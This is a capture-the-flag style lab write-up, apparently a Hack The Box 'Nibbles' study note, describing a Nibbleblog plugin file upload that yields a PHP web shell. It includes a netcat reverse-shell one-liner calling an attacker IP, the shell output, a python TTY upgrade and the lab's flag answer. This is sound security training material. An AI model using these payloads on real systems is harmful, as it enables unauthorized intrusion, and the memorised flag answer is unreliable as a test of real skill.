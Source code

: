 ### Overview
- We are able to log into the admin portal, so let's turn this access into a way of creating a reverse shell access to the web server.
- A Metasploit module may do the trick, but let's use other avenues to do this instead.
![[Screenshot_20241107_131847.png]]
- We can't make a new page, embed code, or upload files as it doesn't seem to like the path.
- Instead, let's check out the plugins page.
- Looking at it, let's use his plugin to upload a snippet of `PHP` code instead of an image.
```php
<?php system('id'); ?>
```
- We can save this code to a file.
- Then, click on the `Browse` button and upload it.
- We get a bunch of errors, but it seems like the file may have uploaded.
```shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```
- The uploaded file is found under `/nibbleblog/content/private/plugins/my_image/`.
- We see `db.xml` and `image.php` with a recent last modified date, indicating successful upload.
- Now, we need to check to see if we have command execution on these files.
```shell-session
secmancer@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
- We sure in fact do!
- Looks like we gained remote code execution on the Apache server running as `nibbler` user.
- We can modify the PHP file to obtain a reverse shell and upload it again.
- So, we can use resources like PayloadAllTheThings and HighOnCoffee for reverse shell techniques.
- Looks like aa Bash reverse shell one-liner will work best, so let's add that to the PHP script.
```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```
- We will add our `tun0` VPN IP address in the `<ATTACKING IP>` placeholder.
- Let's also add a port of our choice for `<LISTENING PORT>`.
- This way, we can catch the reverse shell on our `netcat` listener.
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
- We upload the file again and start a `netcat` listener in our terminal:
```shell-session
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```
- `cURL` the image page again or browse to it in `Firefox` at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.
```shell-session
secmancer@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
- We need to upgrade the shell to a fully interactive TTY for better usability.
- The initial shell lacks features like `su`, text editors, and tab-completion.
- We can refer to [this post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) for methods to achieve this.
- So, let's use a `Python` one-liner to spawn a pseudo-terminal for improved functionality.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as `Python2` seems to be missing from the system!
```shell-session
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```
- We have `Python3` though, which works to get us to a friendlier shell by typing `python3 -c 'import pty; pty.spawn("/bin/bash")'`. 
- Browsing to `/home/nibbler`, we find the `user.txt` flag as well as a zip file `personal.zip`.
```shell-session
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```


### Questions
- Gain a foothold on the target and submit the user.txt flag
	- 79c03865431abf47b90ef24b9695e148